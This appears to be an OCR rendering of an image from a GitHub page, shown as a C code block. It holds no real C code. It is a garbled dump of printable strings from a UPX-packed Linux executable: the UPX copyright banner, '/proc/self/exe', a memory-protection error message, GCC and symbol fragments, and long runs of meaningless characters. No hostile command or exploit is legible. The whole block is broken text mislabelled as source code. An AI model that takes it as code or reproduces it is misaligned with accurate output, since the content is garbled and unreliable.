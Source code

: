 ```c
: O_CREATE
'k$~[9]->d
D 0no*RRx_
#J?3O2ABI
NCYL 5GSCO0
-10 6/UCS4/H
,$PZT(ALJ7
-4LE/SleWle[u%
LEPHONiASU2
 "9999$%&/999956799999:<DG9999HI_`
#6''''<dej''''k
 ''''!#$`''''abcd''''efgh''''ijkl''''mnop''''qrst''''uvwx''''yz{|''''}~
't*uv#oWCa
Q2R''''STUV''''WXYZ''''[\]^''''_
MNONNNNPRTUNNNNVWYZNNNN[\_`NNNNabcdNNNNefhi
 rrrr!"#$rrrr%&'(rrrr)*+,rrrr-./0rrrr1234rrrr5678rrrr9;<=rrrr>@ABrrrrCDFJrrrrKLMNrrrrOPRSrrrrTUVWrrrrXYZ[rrrr\]^_rrrr`abcrrrrdefgrrrrhijkrrrrlmnorrrrpqrsrrrrtuvwrrrrxyz{rrrr|}~
 !"9999#$%&9999'()*9999+,-.9999/012999934569999789:9999;<=>9999?@AB9999CDEF9999GHIJ9999KLMN9999OPQR9999STUV9999WXYZ9999[\]^9999_`ab9999cdef9999ghij9999klmn9999opqr9999stuv9999wxyz9999{|}~9999
'12Wr%W345%Wr%67x!Wr892
b'cdr%WrefgWr%Whij%Wr%klr%WrmnoWr%Wpqr%Wr%str%WruvwWr%Wxyz%Wr%ABr%WrCDEWr%WFGH%Wr%IJr%WrKLMWr%WNOP%Wr%QRr%WrSTUWr%WVWX%Wr%YZ
_r%W;k'MGEp%WTu
Fri.at7day=
pchuilqesyuustuw
 $9999(/6>9999HQXa9999eimq9999uy}
Vng1XENIX#
&9223372036854775807L`
<http://w(
PROT_EXEC|PROT_WRITE failed.
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 3.08 Copyright (C) 1996-2011 the UPX Team. All Rights Reserved. $
/proc/self/exe
GCC: (Ubuntu/Linaro 4.6.3-1u)#
ild-id$rela.plt
__libc_f8e
g?ojxS*/?8/
OT/?d''''[
/p#o]/P8vQj
call_gmon_start
DEH_FRAME_BEGINf
@pleted.6036
curi,cntrSd
|85408.mLm
afKjump_`B`
_PRETTY_FUNCT0Na
@#1{59#3a%[
.<e;5wdP9H*
~|2adDdoJs;0
C_>YPE/NUMERIC?
<tbltoCto?
mkpl'GLOBAL_O,
I^Mx868uA8"k
F 	sa	 WUH
```
